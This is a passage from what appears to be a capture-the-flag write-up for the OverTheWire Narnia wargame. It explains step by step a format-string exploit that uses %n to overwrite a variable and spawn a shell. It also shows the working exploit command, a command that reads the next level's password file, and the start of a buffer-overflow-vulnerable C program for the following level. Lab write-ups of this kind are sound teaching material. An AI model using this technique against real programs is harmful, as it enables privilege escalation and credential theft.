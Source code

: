 Ok, so we set a breakpoint just after `snprintf` finished executing. We can observe that the stack contains the variable we just passed to it. The start of the buffer (Now filled with 0x41) , the buffer length in hex (0x40 = 64) and a pointer to a string in memory (*Argv). The important part is that the buffer follows the arguments and so when using `%x` it will read from the string we passed as argument.
To get a shell we need to overwrite the i variable with a value of 500. Ok here is the trick. The `%n` modifier is a special one in the sense that it writes in memory instead of reading from it. It Takes the next argument in the list and writes the number of bytes outputted so far in there. To exploit this we need to:
- Inject a first argument of 4 bytes `JUNK`
- Inject the address of variable i (The program outputs it)
- 8 bytes are already in buffer now, using the modyfier `%492x` will write another 500 and consume the first `JUNK` argument
- %n modifier now writes the value 500 in the address of the second injected argument (i variable)

Let's see this in action: (I used bash command substitution to pass the arguments)
```
narnia5@narnia:/narnia$ ./narnia5 $(python -c "print('JUNK'+'\xe0\xd6\xff\xff')")%492x%n
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [JUNK                                                       ] (63)
i = 1 (0xffffd6d0)
narnia5@narnia:/narnia$ ./narnia5 $(python -c "print('JUNK'+'\xd0\xd6\xff\xff')")%492x%n
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
**********
```
We do a quick test to check `i`'s address and then we attack! Nice.

# *Narnia6*
Source time!
{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
                memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
                memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
                exit(-1);
        setreuid(geteuid(),geteuid());